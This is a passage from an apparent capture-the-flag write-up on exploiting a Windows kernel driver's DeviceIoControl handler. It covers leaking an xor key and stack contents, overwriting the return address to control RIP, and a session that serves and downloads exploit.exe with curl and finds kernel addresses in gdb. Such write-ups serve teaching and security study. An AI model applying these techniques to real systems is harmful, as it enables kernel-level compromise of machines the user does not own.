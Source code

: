 Exploitation plan:
* `DeviceIoControl(InputBufferLength=InputBufferLength=0x100)` in order to
figure out the value of the xor key.
* `DeviceIoControl(InputBufferLength=0, OutputBufferLength>0x100)` in order to
read the stack.
* `DeviceIoControl(InputBufferLength>0x100, OutputBufferLength=0)` in order to
overwrite the stack and control the value of `RIP`.

By analyzing the assembly code we can learn the stack layout:

* `0x0`: `CryptoBuffer`.
* `0x100`: Security cookie - will end up being useless very soon.
* `0x128`: return to `IrpMjDeviceControl+0x5a` - now we know the driver
load address.
* `0x158`: return to somewhere in the kernel.

We don't know where the kernel and the stack are, but this is enough information
to set meaningful breakpoints. Let's stop at `DoDeviceControl + 0x103` (that's
the `ret` instruction we plan to control) and check out the stack again:

```
host$ python3 -m http.server &
host$ x86_64-w64-mingw32-gcc -o exploit.exe exploit.c
host$ nc localhost 50216
c:\ctf>  cd tmp
c:\ctf\tmp> curl http://<host ip>:8000/exploit.exe -o exploit.exe
c:\ctf\tmp> exploit.exe /scout
Key:           0x6c3bae58430487b4
Driver base:   0xfffff8035ddd1000
(gdb) b *(0xfffff8035ddd1000+0x140005103-0x140001000)
(gdb) c
c:\ctf\tmp> exploit.exe /scout
(gdb) p/x $rsp
0xfffff68e9e3697e8
```

Let's scan the stack for stack addresses:

```
(gdb) python
addr = 0xfffff68e9e3697e8
import struct
i = gdb.inferiors()[0]
while True:
    val, = struct.unpack('<Q', i.read_memory(addr, 8))
    if val >= 0xfffff68e00000000 and val < 0xfffff68f00000000:
        print(hex(addr) + ' ' + hex(val))
    addr += 8
end
0xfffff68e9e369860 0xfffff68e9e369b80
```

So here it is - a pointer to `CryptoBuffer+0x4c0` at offset
`CryptoBuffer+0x158` - hooray, we can have the stack address now as well! Since
each thread has a fixed kernel stack, we can be sure that the value obtained
this way will persist across multiple `DeviceIoControl` calls.
